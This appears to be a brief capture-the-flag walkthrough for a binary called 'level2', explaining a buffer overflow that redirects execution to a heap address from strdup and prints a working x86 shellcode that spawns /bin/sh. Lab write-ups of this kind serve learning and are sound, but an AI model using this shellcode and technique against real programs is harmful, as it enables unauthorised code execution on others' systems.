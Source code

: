 
# Walkthrough

> **The Goal:**make buffer overflow to launch a shell pogram, the idea is to exploit the heap because the stack it protected<br/>
> Filled the buffer then jump to the heap  address to executed the shellcode

1. Get the offset 
![Alt Offset](offset.png)


2. [Shellcode](http://shell-storm.org/shellcode/files/shellcode-575.html)
  `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

3. Get the return Address
I used `ltrace ./level2` to get the return address of strdup `0x0804a008` 

4. Exploit the buffer overflow 
![Alt Exploit](find.png)
